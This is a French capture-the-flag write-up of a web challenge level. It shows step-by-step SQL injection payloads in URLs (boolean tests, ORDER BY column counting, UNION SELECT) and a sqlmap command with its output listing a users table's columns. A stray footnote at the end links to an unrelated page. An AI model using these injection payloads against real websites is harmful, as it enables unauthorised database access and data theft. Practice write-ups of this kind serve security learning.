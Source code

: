 ## Level 6

Cette fois-ci c'est un message de bienvenue qui s'affiche:

>Hello manhluat!

L'url est plus intéressante que les fois précédante et ça sent l'injection SQL à plein nez:

    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=1
    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=-1
    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=-1 or 1=2--
    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=-1 or 1=1--

Le message de bienvenue ne s'affiche qu'avec la première et la dernière URL ce qui confirme que nous somme en présence d'une faille de type injection SQL.

On va cherche le nombre de colonne de la requête:

    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=1 order by 3-- OK
    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=1 order by 4-- NOK
    
Le select se fait sur 3 colonnes.

    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=-1 union select 1,2,3--
    
>Hello 2!

Le nom d'utilisateur est la deuxième colonne sélectionnée. 

Pour le fun un petit coup de SQLmap :

    c:\Python27>python.exe "c:\Program Files\sqlmap\sqlmap.py" -u http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=1 --technique=U --union-cols=3 -T users --common-columns"

    [19:32:58] [INFO] retrieved: id
    [19:32:59] [INFO] retrieved: username
    [19:33:01] [INFO] retrieved: rowid
    [19:33:07] [INFO] tried 179/2447 items (7%)
    [19:33:07] [INFO] waiting for threads to finish (Ctrl+C was pressed)
    [19:33:08] [WARNING] user aborted during column existence check. sqlmap will dis
    play partial output

    Database: All
    Table: users
    [3 columns]
    +----------+---------+
    | Column   | Type    |
    +----------+---------+
    | id       | numeric |
    | rowid    | numeric |
    | username | numeric |
    +----------+---------+
    

[^1]: [SMS Text Message Decoder](http://www.dbcovers.com/image-of-half-nelson-2006-half_nelson_2006_1)